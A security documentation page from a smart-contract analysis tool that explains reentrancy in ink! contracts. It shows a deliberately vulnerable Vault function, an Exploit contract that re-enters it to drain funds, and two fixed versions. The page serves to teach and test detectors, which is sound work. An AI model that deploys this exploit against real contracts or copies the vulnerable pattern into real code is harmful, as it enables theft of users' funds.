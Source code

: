 # Reentrancy
## Description
* Vulnerability Category: `Reentrancy`
* Severity: `Critical`
* Detectors: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy-2)
* Test Cases: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-2), [`reentrancy-3`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-2/reentrancy-1)

Smart contracts can call other contracts and send tokens to them. These
operations imply external calls where control flow is passed to the called
contract until the execution of the called code is over. Then the control
is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract
to execute any arbitrary code. This includes calling back the caller contract,
an attack known as reentrancy. This kind of attack was used in Ethereum for
the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario
In order to exemplify this vulnerability we developed two contracts:
a `Vault` contract and an `Exploit` contract.

The `Vault` contract provides functions to deposit, withdraw, check balance,
and call a function on another contract with a specified value.

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Th function `call_with_value function()` allows the contract owner to call
other contracts on the blockchain and transfer a specified amount of value in
the process. The function takes three arguments:
- *address*: The address of the contract to call.
- *amount*: The amount of balance to transfer in the call.
- *selector*: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have
enough funds to perform the transfer. If the balance is sufficient, a new call
is constructed using the `build_call()` function provided by the
`env::call module`.

The `build_call()` function constructs a new contract call with the specified
arguments. In this case, the call method is used to specify the address of the
contract to call, the transferred_value method is used to specify the amount
of balance to transfer, and the exec_input method is used to specify the
function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called
contract to re-enter the current contract if necessary. This possibility to
re-enter the contract, together with an appropriate 32-bit function selector
will allow us to repeatedly withdraw balance from the contract, emptying the
Vault.

In order to perform this attack, we will use the `exploit()` function of the
`Exploit` contract that we outline below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```

The vulnerable code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1/vulnerable-example).

### Deployment
Vault and Exploit files can be found under the directories
[vulnerable-example/exploit](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1/vulnerable-example/exploit) and
[vulnerable-example/vault](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1/vulnerable-example/vault).
The whole exploit example can be run automatically using the `deploy.sh` file.

## Recommendation
In general, risks associated to reentrancy can be addressed with the
Check-Effect-Interaction pattern, a best practice that indicates that external
calls should be the last thing to be executed in a function. In this example,
this can be done by inserting the balance before transferring the value (see
[remediated-example-1](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1/remediated-example)).


```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-1/remediated-example).

Alternatively, if reentrancy by an external contract is not needed, the
`set_allow_reentry(true)` should be removed altogether (see
[remediated-example-2](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-2/remediated-example)). This is equivalent in Substrate to using a
[reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard)
like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy-1/reentrancy-2/remediated-example).

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://stermi.medium.com/the-ethernaut-challenge-9-solution-re-entrancy-635303881a4f)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)
